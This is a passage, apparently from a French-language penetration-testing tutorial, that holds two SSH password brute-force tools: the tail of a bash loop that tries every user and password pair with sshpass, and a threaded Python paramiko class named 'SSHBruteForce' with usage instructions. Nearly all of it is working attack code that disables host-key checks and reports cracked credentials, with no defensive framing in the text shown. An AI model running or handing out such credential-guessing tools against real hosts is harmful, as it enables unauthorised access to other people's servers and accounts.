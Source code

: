```bash
    while IFS= read -r pass; do
        echo "Trying $user:$pass"
        sshpass -p "$pass" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=5 "$user@$TARGET" exit 2>/dev/null
        if [ $? -eq 0 ]; then
            echo "[SUCCESS] $user:$pass"
            exit 0
        fi
    done < "$PASSLIST"
done < "$USERLIST"
```

### Script Python avancé
```python
#!/usr/bin/env python3
import paramiko
import sys
import threading
import time

class SSHBruteForce:
    def __init__(self, target, port=22):
        self.target = target
        self.port = port
        self.success = False
        
    def ssh_connect(self, username, password):
        if self.success:
            return
            
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(self.target, port=self.port, username=username, 
                       password=password, timeout=5)
            
            print(f"[SUCCESS] {username}:{password}")
            self.success = True
            ssh.close()
        except:
            pass
    
    def run_attack(self, userlist, passlist):
        for username in userlist:
            if self.success:
                break
            for password in passlist:
                if self.success:
                    break
                thread = threading.Thread(target=self.ssh_connect, 
                                        args=(username, password))
                thread.start()
                time.sleep(0.1)

# Utilisation
if len(sys.argv) != 4:
    print("Usage: python3 ssh_brute.py <target> <userlist> <passlist>")
    sys.exit(1)

bruteforcer = SSHBruteForce(sys.argv[1])
# Charger les listes et lancer l'attaque
```

---